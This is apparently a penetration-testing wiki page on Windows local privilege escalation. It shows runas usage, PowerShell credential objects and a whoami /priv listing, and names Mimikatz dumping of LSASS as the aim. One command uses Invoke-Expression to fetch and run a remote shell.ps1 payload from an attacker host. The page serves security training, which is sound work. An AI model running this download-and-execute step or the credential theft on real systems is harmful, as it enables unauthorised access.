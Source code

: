 ```yaml
---
description: Escalate privileges on a local computer to become a more powerful user
---
```


# Local Privilege Escalation

After the [local-enumeration.md](local-enumeration.md "mention") phase, you might have found some interesting things. This section explains how you exploit some findings to reach the Administrator on the current (local) computer.

Once this is successful, you should have enough permissions to do anything on the machine. The main goal is often using [#post-exploitation-mimikatz](local-privilege-escalation.md#post-exploitation-mimikatz "mention") to read cached credentials from a memory dump of the `LSASS.exe` process.

## Credentials

Many times the enumeration efforts result in some new credentials being found. See[#spray-passwords](scanning-spraying.md#spray-passwords "mention") for tools that can spray credentials over systems quickly, to find which computer or user they belong to.

You can also start a local process as another user from CMD/PowerShell using the `runas` command. This will start a new window as that user after filling in the correct password:

{% code title="sudo interactively" %}
```powershell
runas /user:j0r1an powershell  # local
runas /user:corp\j0r1an powershell  # domain
```
{% endcode %}

The above only works in an RDP setting where you interactively type the password. For shells instead, you can use PowerShell to create a new process with your credentials:

<pre class="language-powershell" data-title="sudo using PowerShell" data-overflow="wrap"><code class="lang-powershell"><strong>$pass = ConvertTo-SecureString '$PASSWORD' -AsPlainText -Force
</strong># 1. Local account
<strong>$c = New-Object System.Management.Automation.PSCredential("$USERNAME", $pass)
</strong># 2. Domain account
<strong>$c = New-Object System.Management.Automation.PSCredential("$DOMAIN\$USERNAME", $pass)
</strong>
<strong>Start-Process -Credential ($c) -NoNewWindow powershell "iex (New-Object Net.WebClient).DownloadString('http://$IP:8000/shell.ps1')"  # Run your payload here
</strong></code></pre>

## Privileges

Windows uses 'privileges' to determine what you can and can't do. There are some uninteresting default privileges, but also some that give a lot of power. Check them with the `whoami` command:

<pre class="language-powershell"><code class="lang-powershell"><strong>PS C:\> whoami /priv
</strong>
Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
Se​Chan​geNoti​fyPr​ivil​ege       Bypass traverse checking             Enabled
S​eUnd​ockP​rivil​ege             Remove computer from docking station Disabled
Se​Inc​rease​Wor​ki​ngSe​tPr​ivile​ge Increase a process working set       Disabled
</code></pre>
